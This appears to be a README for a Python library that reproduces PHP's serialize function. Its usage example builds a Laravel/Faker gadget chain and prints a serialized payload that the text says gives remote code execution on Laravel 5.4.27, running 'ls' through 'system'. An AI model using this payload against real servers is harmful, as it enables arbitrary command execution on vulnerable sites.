 # libphpserialize

A port of PHP's serialize function, in pure python

## Installation

`pip install libphpserialize`

## Features

- serialize objects directly from python objects
- nested objects
- namespacing
- variable Access Modifiers (public, private, protected)

## Example

```python
from phpserialize import serialize
from phpserialize.decorators import namespace
import requests


@namespace('Faker')
class Generator:
    protected_formatters = {'dispatch': 'system'}


@namespace('Illuminate\Broadcasting')
class PendingBroadcast:
    protected_event = 'ls'
    protected_events = Generator()


print(serialize(PendingBroadcast()))
```

with above code, you'll get:

```
O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{s:9:"*events";O:15:"Faker\Generator":1:{s:13:"*formatters";a:1:{s:8:"dispatch";s:6:"system";}}s:8:"*event";s:2:"ls";}
```

which triggers an RCE vulnerability in Laravel 5.4.27

nice when you're writing an exploit script for others to read

## Important:

- the code is written and tested under python 3.7+
- decimal serialization doesn't work the same as PHP does, yet

## TODO

- recursive objects support
- reimplement decimal precision calculating algorithm from php engine
